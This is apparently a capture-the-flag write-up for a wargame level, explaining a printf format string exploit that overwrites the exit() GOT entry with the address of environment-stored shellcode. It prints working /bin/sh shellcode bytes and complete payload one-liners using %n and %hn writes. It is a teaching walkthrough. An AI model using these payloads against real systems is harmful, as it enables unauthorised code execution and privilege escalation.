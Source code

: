 # level05
RELRO protection is disable  
Presumption: Overwrite the __Global Offset Table (GOT)__

## Step 1: Understand the program
1. The program reads 100 bytes and store it in a buffer of 100 bytes (no segfault)
2. The program iterates over the buffer, and convert uppercase to lowercase (useless)
3. The program prints the raw buffer with an unprotected printf. __This is a format string vulnerablity__
4. finally, the program exits with `exit(0)`


## Goal 
Replace the `exit()` relocation address in the GOT to target a shellcode instead (thanks to the `%n` specifier)


## Step 2: Leak the stack
Leak the stack to find somethings interesting

```bash
$ ./level05 
aaaa %x %x %x %x %x %x %x %x %x %x %x %x
```
```console
aaaa 64 f7fcfac0 f7ec3af9 ffffd6ef ffffd6ee 0 ffffffff ffffd774 f7fdb000 61616161 20782520 25207825
```

Yeah ! We have access to the buffer through the __10th__ specifer `%x`

## Step 3: Export a  shellcode and locate it
```bash
export SHELLCODE=`python -c 'print "\x90" * 100 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'`
```

shellcode given [here](https://shell-storm.org/shellcode/files/shellcode-752.html) (21 bytes long)
```bash
(gdb) x/20s *((char **)environ)
```
```console
0xffffd871:	 "SHELLCODE=\220\220[...]\220\220\061\311\367\341Qh//shh/bin\211\343\260\v̀"
```

shellcode is at `0xffffd871`. It begin by 100 NOOPs  

__`0xffffd871` = 4294957169__

## Step 4 : Find `exit()` in the GOT


Find the __GOT__ entry of `exit()`
```bash
readelf -r level05 | grep exit
```
```console
080497e0  00000407 R_386_JUMP_SLOT   00000000   exit
```

The address of `exit()` is stored at `0x080497e0` in the __GOT__


## Exploit

1. Write the `exit()` entry point address in the buffer
2. Access to the buffer with the 10th specifier
3. Replace the address specified in the buffer by the address of the shellcode using `%n` (%n take a pointer to int32).


```bash
(python -c 'print "\x08\x04\x97\xe0"[::-1] + "%4294957165d" + "%10$n"'; cat) | /home/users/level05/level05
```

4294957165 = 4294957169 - 4 --> (4 = characters already printed)

It doesn't work because `4294957165` is too much


## Necessary to optimize

We want to write `0xffffd871` at `0x080497e0`, That is to write 4 bytes at `0x080497e0`  

### Solution
We can write two bytes at a time:
- `0xd871` at `0x080497e0`
- `0xffff` at `0x080497e2`


```bash
(python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%55401d" + "%10$hn" + "%10126d" + "%11$hn" '; cat) | /home/users/level05/level05
```
- 55401 = 0xd871 - 8 ----------> (8 = characters already printed)
- 10126 = 0xffff - 55401 - 8 --> (55401 + 8 = characters already printed)

`%hn` is used to write 2 bytes at a time


> `%hn`: 'h' means short int. So it specified a pointer on  `int16` (2 bytes) instead of a pointer on `int32`  
> It is also possible to jump in the middle of the NOOPs